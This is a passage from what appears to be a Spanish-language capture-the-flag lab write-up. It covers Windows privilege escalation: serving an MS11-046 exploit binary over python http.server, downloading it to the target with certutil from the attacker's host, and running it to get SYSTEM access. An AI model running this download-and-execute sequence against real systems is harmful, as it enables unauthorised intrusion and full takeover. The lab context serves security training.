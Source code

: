 Nos descargamos el archivo, lo subimos al sistema compartiendo un servidor con python y descargandolo en *C:\\Windows\\Temp\\Privesc*.

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.5 - - [28/Aug/2021 17:28:22] "GET /ms11-046.exe HTTP/1.1" 200 -
10.10.10.5 - - [28/Aug/2021 17:28:26] "GET /ms11-046.exe HTTP/1.1" 200 -
```

```bash
cd C:\Windows\Temp                                                                                                                         
mkdir Privesc                                                                     
mkdir Privesc                                                                                                         
cd Privesc                              
cd Privesc                                                                                 
certutil.exe -f -urlcache -split http://10.10.14.15/ms11-046.exe C:\Windows\Temp\Privesc\ms11-046.exe
****  Online  ****
  000000  ...
  01b8af
CertUtil: -URLCache command completed successfully.

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Windows\Temp\Privesc

29/08/2021  01:33     <DIR>          .
29/08/2021  01:33     <DIR>          ..
29/08/2021  01:33            112.815 ms11-046.exe
               1 File(s)        112.815 bytes
               2 Dir(s)  22.117.363.712 bytes free

C:\Windows\Temp\Privesc>
```

Ejecutamos el archivo ms11-046.exe y ya somos adminstradores del sistema, ahora podemos visualizar las flags (user.txt y root.txt).

```bash
ms11-046.exe

whoami
whoami
nt authority\system

c:\Windows\System32>
```
